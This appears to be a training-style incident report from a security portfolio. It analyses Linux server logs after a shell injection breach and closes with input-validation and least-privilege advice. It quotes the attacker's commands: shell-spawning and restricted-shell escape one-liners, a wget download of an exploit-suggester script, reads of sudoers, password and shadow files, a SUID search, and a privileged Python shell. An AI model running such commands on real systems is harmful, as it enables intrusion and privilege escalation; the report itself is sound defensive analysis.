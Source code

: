 # Linux Server Logs - Shell Injection
<b>INCIDENT REPORT: JA-16646-LinuxServerLogs</b>

## Executive Summary 
Information from a Linux server that was previously thought to be secure was found being traded for cryptocurrency on the dark web. The administrator is confused because he is using input sanitation to stop malicious .php files from being loaded and executed. The Linux server logs have been delivered for examination to determine how the security breach occurred. 

## Methodology 
- Bash logs
- Linux commands

## Findings/Results 
The hacker accessed the terminal and was able to execute malicious activities despite the filters in place.
- Malicious linux commands
- Linux Exploit Suggester - a package designed to assist in detecting security deficiencies, but it can also be exploited by hackers. 

![Linux Logs](https://github.com/serengetijade/Cyber_Security/blob/main/img/LinuxLogs.jpg)

### Attack Narrative 
Early linux commands show that the hacker started by gathering information about the current user, such as whoami, id, and so on. There are also many commands to discover the file structure, directories, and lists of contents. This information is then used for exploiting vulnerabilities. Additionally, the hacker accessed the Linux Exploit Suggester to help them find weaknesses and then proceeded to enter commands to gather more information. 

The directory was changed to /home/daniel/. This indicates that a user named daniel has accessed the server and then injected a shell os.
- cd /home/daniel/
- python -c 'import pty; pty.spawn("/bin/sh")'     
    is used to spawn an interactive shell
- echo os.system(‘/bin/bash’)     
    is the linux command to break out of the current restrictive shell. 

Daniel then installed the Linux Exploit Suggester: 
- wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

A virtual environment was started: 
- env

The current processes were displayed on the terminal: 
- ps -ef

Daniel also ran a packet analyzer: tcpdump
- tcpdump is a packet analyzer that is launched from the command line. Packet analyzers are used to monitor network traffic. 

Then several commands were used to gather additional information about the system: 
- cat /etc/sudoers     
    sudoers is a file Linux and Unix administrators use to allocate system rights to system users. 
- last     
    displays a list of users who have previously logged in to the system. 
- sudo -l     
    by adding sudo, it provides a way to temporarily grant users or user groups privileged access to system resources so that they can run commands that they cannot run under their regular accounts.
- cat commands : several cat commands are entered to access password, profiles, and shadow folders. 
- find / -type f -user root -perm -4000     
    is the command to find files that require root permission. 

Python was used to run a script inside of the virtual environment.  
- ./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

The final log entry was to remove the shell that was being used. 
- rm /var/www/html/uploads/x.phtml


### Malicious HTTP traffic 
The Linux Exploit Suggester was downloaded from https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

## Conclusion 
OS command injection, also known as shell injection, is a vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, typically for the purpose of gathering (stealing) data. If a hacker can gain access to and submit commands to an OS, they can compromise other parts of the infrastructure and attack other parts of the system. 

Input sanitation is only one of many security techniques that should be administered to secure a system. Although it is being implemented, it must be strengthened to prevent this kind of attack. Additional validation that can be added may include: 
- Validating against a whitelist of permitted values.
- Validating that the input contains only alphanumeric characters, 
- Validating that there are no other syntax or whitespace (other than alphanumeric).
- Validating that the input is a number, when expected.

Restricting user privileges is another way to minimize this attack vector, so only the minimum tasks are possible to complete a user’s specific job. 

Finally, patches and upgrades should be kept up to date, and security testing should be done regularly. 
